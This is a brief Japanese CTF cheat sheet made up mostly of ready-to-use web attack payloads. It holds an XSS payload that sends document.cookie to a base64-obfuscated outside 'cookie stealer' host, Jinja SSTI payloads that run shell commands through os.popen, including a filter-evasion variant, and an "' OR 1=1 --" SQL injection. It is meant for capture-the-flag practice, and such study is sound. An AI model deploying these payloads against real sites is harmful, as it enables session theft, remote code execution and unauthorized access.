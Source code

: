 # CTFチートシート
## 目次
{:toc}
## Web問
---
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる
